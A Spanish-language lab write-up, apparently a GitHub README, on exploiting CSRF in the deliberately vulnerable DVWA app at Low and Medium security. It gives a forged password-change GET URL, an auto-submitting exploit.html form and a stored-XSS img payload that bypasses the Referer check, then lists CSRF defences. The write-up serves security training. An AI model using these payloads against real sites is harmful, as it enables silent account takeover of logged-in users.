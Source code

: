 # 🛡️ DVWA - Cross Site Request Forgery (CSRF) - Low y Medium

En este repositorio se explica cómo explotar la vulnerabilidad **CSRF (Cross Site Request Forgery)** en los niveles **Low** y **Medium** dentro de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Realizar un ataque CSRF para **cambiar la contraseña de un usuario autenticado sin su consentimiento**, aprovechando la ausencia o debilidad de protecciones en el formulario vulnerable. Esto se puede lograr mediante técnicas de ingeniería social como enviar un enlace por email o redirigir a la víctima a una página maliciosa.

---

## 🔧 Nivel Low

### 🧪 Vulnerabilidad detectada
- No hay validación de origen ni token CSRF.
- El código fuente `low.php` acepta peticiones GET directamente sin verificar el origen ni incluir ningún token de seguridad.
- Además, al inspeccionar el botón Test Credentials, se observa un script que abre una ventana con `test_credentials.php`, útil para comprobar si la contraseña ha sido modificada.
- Usando **Burp Suite**, es posible interceptar y observar una petición GET.

---

### 🛠 Paso a paso

1. Inspeccionamos el elemento desde el apartado de CSRF y vemos que el botón **Test Credentials** ejecuta un script, el cual verifica si la contraseña se ha cambiado correctamente.

![Inspeccionar_Elemento](assets/CSRFL_Inspeccionar.png) 
   
2. Damos click en **Test Credentials** y vemos que podemos comprobar la contraseña del usuario *admin* y su contraseña por defecto *password*.

![Test_Credentials](assets/CSRFL_TestCredentials.png) 

3. Cambiamos la contraseña, introduciendo esta dos veces, y damos click en **Change**.
4. Vemos con la herramienta **Burp Suite** que en la petición GET podemos ver una URL desde donde se puede cambiar la contraseña.
```php
GET /dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

![Cambio_contraseña](assets/CSRFL_GETChange.png) 

5. Copiamos esta URL y la pegamos sobre nuestro navegador.

![Copiar_URL](assets/CSRFL_URL.png) 

6. Realizamos cambios de la contraseña a *test123* desde la URL.

![Cambiar_contraseña_URL](assets/CSRFL_URLv2.png) 

7. Comprobamos que esta contraseña ha sido cambiada al haber modificado la URL y accedido al sitio web.

![Comprobar_contraseña](assets/CSRFL_test123.png) 


✅ **Exploit exitoso**: la contraseña cambia sin interacción del usuario.

---

## 🔧 Nivel Medium

### 🧪 Vulnerabilidad detectada
- El código `medium.php` realiza una validación del `HTTP_REFERER`, exigiendo que el origen de la petición sea el mismo dominio que el del servidor `SERVER_NAME`.
- Esto impide que ataques externos funcionen directamente, pero se puede **bypassear usando una vulnerabilidad de tipo XSS almacenado**.

### 🛠 Paso a paso (XSS + CSRF combinados)

1. Creamos el archivo `exploit.html` con el siguiente contenido:

```html
<html>
  <body>
    <form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/" method="GET">
      New password:<br />
      <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="test" /><br />
      Confirm new password:<br />
      <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="test" /><br />
      <input type="hidden" value="Change" name="Change" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

2. Intentamos ejecutar este exploit en el Navegador firefox.

```html
firefox exploit.html
```

Sin embargo, la salida no es la esperada, ya que no se modifica la contraseña del usuario.

![Post_Exploit](assets/CSRFM_PostExploit.png)

3. Ahora bajamos la seguridad a *Low* de nuevo, accedemos al apartado **XSS (Stored)** e inspeccionamos esta página, donde aumentaremos el valor de `MaxLength` a 250 para poder introducir el siguiente código en la sección *message*:

```html
<img src="/dvwa/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change">
```

![CambioMaxLength_Comando](assets/CSRFM_MaxLengthComando.png)

4. El administrador, al visitar la sección del libro de visitas (`XSS Stored`), ejecutará la petición hacia la ruta CSRF. El referer será el propio DVWA, por lo tanto, **el filtro de origen en Medium no bloqueará la petición**.

![Peticion_CambioPass](assets/CSRFM_PeticionCambioPass.png)

En la siguiente petición vemos como la contraseña es cambiada desde la sección XSS_S.

![Peticion_CambioPassv2](assets/CSRFM_CambioPass.png)

5. Verifica el cambio con `Test Credentials`.

![TestCredentials](assets/CSRFM_TestCredentials.png)

✅ **Exploit exitoso**: el uso de XSS para forzar una petición interna permite superar el control del `HTTP_REFERER`.

📌 **Nota técnica:** aunque parezca una protección, el referer es manipulable o predecible en ciertos contextos. No es una defensa efectiva por sí sola.

---

## ⚠️ Recomendaciones de seguridad

Para prevenir ataques CSRF:

- Usar tokens CSRF únicos por sesión y validados en el servidor.
- Verificar cabeceras de origen (`Origin` o `Referer`).
- No permitir cargas de archivos ejecutables.
- Aplicar SameSite en cookies para restringir su envío.
- Rechazar peticiones GET para cambios sensibles como contraseñas.
- Separar correctamente los contextos de entrada de datos para prevenir XSS.

---

## 📚 Recursos

- 🔗 [Writeup de Aftab Sama sobre CSRF](https://aftabsama.com/writeups/dvwa/cross-site-request-forgery-csrf/)
- ▶️ [Vídeo tutorial de CSRF en DVWA](https://www.youtube.com/watch?v=Nfb9E8MJv6k&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=4)
- 📖 [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
